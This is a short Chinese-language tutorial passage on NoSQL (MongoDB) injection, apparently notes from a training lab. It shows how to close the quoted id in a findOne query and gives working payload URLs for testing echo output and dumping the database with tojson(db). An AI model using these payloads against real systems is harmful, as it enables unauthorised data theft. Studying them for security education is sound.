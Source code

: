 ![未标题-1.jpg](.\SQL注入原理.assets\1530693387a37838.jpg)

~~~sql
如何构造payload？
正常写法：select * from news where id=1
mdb数据库写法：select * from news where id={('$id')}，需要闭合符号
 
原始语句：db.notice.findOne({'id':'$id'});return data;
如果 ?id=1 order by 2
那么语句就会变成：db.notice.findOne({'id':‘1 order by 2’});return data;，语句不正确。
但是注入语句 ?id=1'}); return ({title:tojson(db),content:'1
那么语句就变成：db.notice.findOne({'id':‘1'}); return ({title:tojson(db),content:'1'});return data; ，就可以进行正常的注入。
测回显：/new_list.php?id=1'}); return ({title:1,content:'2
~~~

![1645012603798-16fa1dce-66cb-4081-94d1-5e38379cd3e5.png](.\SQL注入原理.assets\2504969-20230912132511662-766688999.png)

~~~sql
爆库：  
/new_list.php?id=1'}); return ({title:tojson(db),content:'1
记录数据库：mozhe_cms_Authority
~~~

